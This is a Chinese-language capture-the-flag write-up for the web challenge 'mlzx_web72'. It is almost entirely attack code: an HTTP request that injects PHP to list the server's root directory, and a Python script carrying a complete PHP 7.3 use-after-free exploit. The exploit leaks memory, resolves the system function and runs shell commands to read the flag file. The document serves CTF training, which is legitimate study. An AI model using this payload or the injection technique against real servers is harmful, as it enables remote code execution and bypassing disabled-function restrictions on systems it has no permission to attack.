



# mlzx_web72

原地址：[GZCTF-challenges/mlzx/mlzx_web72](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web72)



发送请求包获取 flag 位置

```http
POST / HTTP/1.1
Host: IP:PORT
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```

```http
HTTP/1.1 200 OK
Date: Fri, 21 Nov 2025 02:05:53 GMT
Server: Apache/2.4.25 (Debian) PHP/7.3.4
X-Powered-By: PHP/7.3.4
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Content-Length: 114

bin boot dev entrypoint.sh etc flag575038.txt home lib lib64 media mnt opt proc
root run sbin srv sys tmp usr var
```



通过 `UAF` 脚本获取 flag 内容

```python
import requests

# 目标URL
url = "http://IP:PORT/"

# 构造PHP payload（参数c的值）
payload = """?><?php
ctfshow("ls /;cat /flag575038.txt");

function ctfshow($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
            if($p_type == 1 && $p_flags == 6) {
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) {
                $text_size = $p_memsz;
            }
        }
        if(!$data_addr || !$text_size || !$data_size) return false;
        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                if($deref != 0x746e6174736e6f63) continue;
            } else continue;
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                if($deref != 0x786568326e6962) continue;
            } else continue;
            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) return $addr;
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
            if($f_name == 0x6d6574737973) return leak($addr + 8);
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) die('This PoC is for *nix systems only.');

    $n_alloc = 10;
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++) $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) die("UAF failed");

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) die("Couldn't determine binary base address");
    if(!($elf = parse_elf($base))) die("Couldn't parse ELF header");
    if(!($basic_funcs = get_basic_funcs($base, $elf))) die("Couldn't get basic_functions address");
    if(!($zif_system = get_system($basic_funcs))) die("Couldn't get zif_system address");

    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4);
    write($abc, 0xd0 + 0x68, $zif_system);

    ($helper->b)($cmd);
    exit();
}
?>"""

# 发送POST请求
response = requests.post(url, data={"c": payload},verify=False)
# 打印结果
print(response.text)
```



得到 flag